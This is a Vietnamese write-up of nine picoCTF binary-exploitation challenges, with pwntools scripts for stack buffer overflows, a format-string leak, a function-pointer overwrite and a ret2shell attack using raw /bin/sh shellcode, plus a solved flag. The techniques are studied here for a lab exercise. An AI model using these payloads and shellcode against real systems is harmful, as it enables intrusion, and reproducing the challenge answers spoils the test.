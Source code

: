 <details>
<summary>1. Buf0 </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy nó sẽ gọi hàm in flag nếu bị overflow. Ngoài ra có hàm `gets` khiến ta nhập tuỳ thích và `strcpy` làm buf2 bị overflow nếu len input > 16

![](https://i.imgur.com/6FYe0IP.png)

- Vậy mình chỉ cần input đủ dài (>16) là được
    
![](https://i.imgur.com/azBQ14m.png)

- Kết nối chạy thử và ta đã lấy được flag
</details>

<details>
<summary>2. Buf1 </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy có hàm win để lấy shell. Ngoài ra có lỗi buffer overflow do `gets` ở hàm `vuln`

![](https://i.imgur.com/NzkGj1c.png)

- Checksec thử thì thấy tắt hết nên ta chỉ cần gdb rồi tìm padding oveflow như bình thường là được.

![](https://i.imgur.com/OeG97Qy.png)

- Script:
```python=
from pwn import *
exe = ELF("vuln")
p= remote("saturn.picoctf.net",62172)
payload = b"A"*44 + p32(exe.sym['win'])
p.sendlineafter(b'string: \n',payload)
p.interactive()
```

- Chạy script và ta sẽ có được flag.
    
</details>



<details>
<summary>3. Buf2 </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy có lỗi overflow khi nhập bằng hàm `gets`.
    
![](https://i.imgur.com/Hz2ObzC.png)

- Tiếp theo có hàm `win` sẽ cho ta flag nếu thoả 2 arguments. Sau đó ta `checksec`
    
![](https://i.imgur.com/Qv2sVET.png)
    
- Đây là file 32 bit và theo calling convention thì argument sẽ được push lên stack theo reverse order.
- Vậy bài này ta sẽ lợi dụng buffer overflow để chuyển return address của hàm `vuln` qua hàm `win`
- Để biết chắc chắn arguments nằm ở đâu mình sẽ gdb, sẵn tìm padding luôn
    
![](https://i.imgur.com/CJgpqkb.png)

![](https://i.imgur.com/SwIHfOY.png)
    
- Stack frame khi chạy qua hàm `win` sẽ có dạng như sau:
    
![](https://i.imgur.com/l8sAJiJ.png)

- Do đó ta cần padding thêm 4 byte trước khi đưa argument. Vậy thứ tự payload sẽ là:  112 byte padding + address của `win` + 4 byte padding + `0xcafef00d` + `0xf00df00d`
- Script:
```python=
from pwn import *

exe = ELF("vuln")
p=remote("saturn.picoctf.net",51014)
payload = b'A'*112 +p32(exe.sym['win'])+b'A'*4+p32(0xcafef00d)+p32(0xf00df00d)
p.sendlineafter(b'string: \n',payload)
p.interactive()
```
    
- Chạy script trên ta sẽ có được flag
</details>
  
<details>
<summary>4. x-sixty-what </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy bị overflow do hàm `gets`. Ngoài ra cũng có hàm `flag` in ra flag.
    
![](https://i.imgur.com/63lgjEU.png)

![](https://i.imgur.com/dNKRd0d.png)

- Vậy ta sẽ overflow ret address của `vuln` thành hàm `flag`.
- Sau đó ta vào gdb tìm padding

![](https://i.imgur.com/XnLuZBp.png)

- Rồi viết script để chạy:
```python=
from pwn import *
exe=ELF("vuln")
p=remote("saturn.picoctf.net",62515)
payload = b'A'*72+p64(exe.sym['flag'])
p.sendlineafter(b'flag: \n',payload)
p.interactive()
```
- Chạy thử thì ta sẽ bị lỗi xmm1 do `win` có push lên stack làm rsp không chia hết cho 16. Vậy ta chỉ ret vào sau hàm push.

- Final script:
```python=
from pwn import *
exe=ELF("vuln")
p=remote("saturn.picoctf.net",62515)
payload = b'A'*72+p64(exe.sym['flag']+5)
p.sendlineafter(b'flag: \n',payload)
p.interactive()
```
</details>

<details>
<summary>5. flag leak </summary>
    
- Bài này cho 1 file source và 1 file binary
- Đầu tiên ta mở file source lên đọc. Nhận thấy có lỗi format string ở hàm `vuln`, vậy ta sẽ lợi dụng nó để đọc flag đã được mở trước đó.
    
![](https://i.imgur.com/3dwtEuA.png)

- Tiếp theo ta checksec thì nhận thấy đây là file 32 bit. Theo calling convention thì arguments sẽ được push lên stack. Do đó ta sẽ gdb để xem offset.
    
![](https://i.imgur.com/XCuPhPk.png)

- Ta tính ra được 20. Vậy ta chỉ cần input `%20$s` để leak flag. Mình chạy local trên máy mình thì ra được flag nhưng remote thì lại không được (chắc tại khác môi trường) nên mình thử những giá trị lân cận đó thì được `%24$s` là ra được flag

![](https://i.imgur.com/tTL0YPX.png)

</details>

<details>
<summary>6. ropfu </summary>
    
- Bài này cho 1 file source và 1 file binary
- Đầu tiên ta mở file source lên xem thử
    
![](https://i.imgur.com/PPDimxc.png)

- Vậy là có lỗi buffer overflow, trong source không có chỗ nào để lấy shell nên ta checksec thử.
    
![](https://i.imgur.com/dceyyPo.png)

- NX,PIE disable nên bài này mình làm ret2shell cho dễ
- Vậy ta gdb tìm offset để tính tiếp.
    
![](https://i.imgur.com/xns3FVp.png)

- Ta được offset là 28 và khi đó eax chứa địa chỉ của buffer mình nhập. Vậy thì ta cần kiếm gadget jmp vào eax hoặc call eax. Mình thử thì chạy call eax thì được còn jmp eax thì không.

- Script (shellcode mình chôm trên mạng):
```python=
from pwn import *

p = remote("saturn.picoctf.net",53296)
call_eax = 0x0804901d
shell = b'\x83\xec\x50\x31\xd2\x52\x31\xc9\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80'
payload =shell + b'A'*(28-len(shell)) + p32(call_eax)
p.sendlineafter(b'grasshopper!\n',payload)
p.interactive()
```
- Chạy thử và ta có được shell và chỉ cần lấy flag.

</details>

<details>
<summary>7. function overwrite </summary>
    
- Bài này cho 1 file source và 1 file binary
- Đầu tiên mình đọc file source thì thấy ta sẽ lấy được flag nếu kết quả của `calculate_story_score` bằng 13371337. Nhưng điều này là không khả thi vì len của `story` là 128 và chúng ta không thể input được string sau cho ra đúng yêu cầu đề bài.
- Xem kỹ source ta sẽ thấy hàm `check` trỏ về hàm `hard_checker` và có lệnh này ở hàm vuln

![](https://i.imgur.com/PApsYT7.png)

- `If num1 < 10` tức ta có thể input số âm. Ngoài ra ta có `type a[i]` tương đương truy cập với `địa chỉ của a + i*sizeof(type)` do đó ta có thể lợi dụng điều này để khiến hàm fun trở về hàm check sau đó sử dụng giá trị trong đây để nhảy về hàm khác.
                
- Ta đi tìm địa chỉ hàm fun và check
                
![](https://i.imgur.com/NJggbyl.png)

- Ta giải phương tình sau để tìm ra được i: `0x0804c080+4*i=0x0804c040`. Vây ta cần nhập `-16` để hàm fun trỏ về hàm check. Sau đó ta cần tìm offset để điều chỉnh cho hợp lý.
                
![](https://i.imgur.com/VWwT2N9.png)

- Mình sẽ nhảy vào `hardchecker+47` để bypass khúc check bằng 13371337 phí trên. Vậy ta cần nhập số thứ 2 là 47.

- Vậy ta kết nối với server và lấy flag. Lần nhập đầu tiên thì nhập đại cái nào cũng được nhưng lần thứ 2 sẽ là `-16 47`

![](https://i.imgur.com/hkAvnDg.png)

</details>
    
<details>
<summary>8. Stack Cache </summary>
    
- Bài này cho 1 file source và 1 file binary
- Mình đọc file source thì thấy bị overflow do `gets` ở hàm `vuln`, ngoài ra có hàm `win` được gọi tới sẽ load file `flag.txt`. Còn có thêm hàm `underconstruction` in ra `%p %p` nhưng khúc trên không khai báo, vậy đây tương đương lỗi format string
    
![](https://i.imgur.com/8nlBQKD.png)

- Tiếp theo mình `checksec`. Nhận thấy có canary bật và đây là file 32 bit.

![](https://i.imgur.com/khwUh32.png)

- Vậy mình gdb để xem sao thì nhận thấy trước khi ret nó không hề check canary nên ta sẽ thoải mái overflow nhảy qua hàm win sau đó là hàm underconstruction để leak flag.

- Ta sài gdb tìm offset như bình thường sau đó nhảy qua hàm underconstruction xem thử leak gì

![](https://i.imgur.com/WlvNN5X.png)

- Flag lúc này đã được reverse vậy thì khi %p sẽ leak flag từ dưới lên trên.

- Ta viết script kết nối với server thì nhận được dãy hex sau:

![](https://i.imgur.com/dj7DRF4.png)

- Sau đó ta decode dãy trên

![](https://i.imgur.com/MToubYx.png)

- Rồi reverse lại thủ công bằng tay tiếp thì ta được flag `picoCTF{Cle4N_uP_M3m0rY_c7f3d997}` 

- Script : 
```python=
from pwn import *
exe = ELF("vuln")
p= remote("saturn.picoctf.net",61570)
payload = b"a"*14 + p32(exe.sym['win'])+p32(exe.sym['UnderConstruction'])

p.sendlineafter(b'flag\n',payload)
p.interactive()
```
</details>
    
<details>
<summary>9. basic file exploit </summary>
    
- Bài này chỉ cho 1 file source
- Đầu tiên ta mở lên coi có gì thì nhận thấy file gần 200 line và đầu file có khai báo flag

![](https://i.imgur.com/sa1zC83.png)

- Vậy mục đích là làm sao để in được file flag này ra. 
- Ta ctrl-f kiếm thử coi flag có được sài ở đâu không thì thấy có ở hàm `data_read()`

![](https://i.imgur.com/M7GNSCR.png)

- Vậy ta cần làm thoả mãn điều kiện sau: `entry_number = strtol(entry, NULL, 10)) == 0`

- Ta phân tích như sau : hàm `strtol` sẽ chuyển `entry` từ string sang int (hệ 10) tức là chuỗi '123' sẽ thành số 123 sau đó gán cho `entry_number` rồi check `entry_number` có bằng 0 hay không. Vậy mục đích của ta là làm cho `strtol` return 0.

![](https://i.imgur.com/GdPTvWJ.png)

- Đọc man page thì ta nhận thấy hàm này chỉ return 0 khi bị lỗi không convert được hoặc số entry number ta nhập là số 0.

![](https://i.imgur.com/Rimb0HK.png)

- Cách nào cũng được vậy thì ta thử cách nhập số 0.
- Control flow của chương trình như sau : Nhập input -> check input là 1,2 hay 3 rồi thực hiện tương ứng. Để nhập được entry number là 0 thì ta trước đó phải chọn số 1 để ghi vào trước (ghi gì cũng được). 

- Ta thực hiện ý tưởng trên và có được flag

![](https://i.imgur.com/HyuRg9T.png)

</details>